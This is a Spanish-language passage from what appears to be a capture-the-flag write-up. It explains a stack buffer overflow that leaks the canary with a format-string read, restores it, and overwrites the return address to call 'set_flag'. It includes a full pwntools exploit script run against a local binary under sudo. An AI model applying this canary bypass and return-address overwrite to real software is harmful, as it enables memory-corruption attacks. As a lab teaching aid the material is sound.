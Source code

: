**Construcción del payload**

Una vez que tenemos el canario, podemos construir el **payload** que enviamos al programa. El `payload` se construye con una secuencia específica de bytes:

1. **264 bytes** de relleno (`'A' * 264`) para llenar el buffer.
2. **El valor del canario** (que hemos obtenido previamente). Este es el valor correcto que debe ir en el lugar del canario para evitar que el programa lo detecte.
3. **8 bytes de relleno** (`'A' * 8`) hasta llegar a la dirección de retorno.
4. **La dirección de la función `set_flag`**. Esta es la función que queremos ejecutar al sobrescribir la dirección de retorno.

**Ejecución del payload**

El siguiente paso es enviar el **payload** al programa vulnerable. Cuando el programa recibe los **264 bytes de relleno**, sobrescribe el buffer sin que se active la protección del canario. Al añadir el valor del canario y sobrescribir la dirección de retorno con la dirección de `set_flag`, logramos redirigir la ejecución del programa a esa función.

**El exploit en Python con Pwntools**

Usamos la librería **Pwntools** para facilitar la creación del payload y la interacción con el programa. Aquí está el código que construimos:

> exploit.py

```python
#!/usr/bin/python3

from pwn import *

# Función principal para el proceso
def exploit():

    # Ruta del binario vulnerable
    binary_file = "./suma"  # Cambia esta ruta si es necesario

    # Usamos ELF para acceder a las funciones del binario
    elf = ELF(binary_file)  
    context.binary = elf

    # Establecemos los offsets de memoria que ya conocemos
    buffer_offset = 264
    return_offset = 8

    # Iniciamos el proceso de forma diferente usando `sudo`
    process_instance = process(["sudo", binary_file])  # Ejecutar con privilegios de sudo

    # Ahora leemos el canario directamente con un formato distinto
    process_instance.sendline(b'%69$p')  # Esto también lee el canario desde el stack
    process_instance.recvuntil(b'Hola, ')  # El programa imprime "Hola, ", lo capturamos
    canary = int(process_instance.recvline().strip(), 16)  # Convertimos la dirección de memoria del canario a int

    # Vamos a construir el payload usando `b'A'` para rellenar hasta los offsets
    payload = b'A' * buffer_offset  # Rellenamos con A hasta el canario
    payload += p64(canary)  # Agregamos el canario encontrado
    payload += b'A' * return_offset  # Rellenamos hasta la dirección de retorno
    payload += p64(elf.symbols['set_flag'])  # Redirigimos la ejecución a la función set_flag

    # Enviamos el payload al binario vulnerable
    process_instance.sendlineafter(b':', payload)

    # Ahora leemos la bandera (flag)
    flag = process_instance.recvall()

    print(flag)  # Mostramos la salida, que debe ser la bandera
```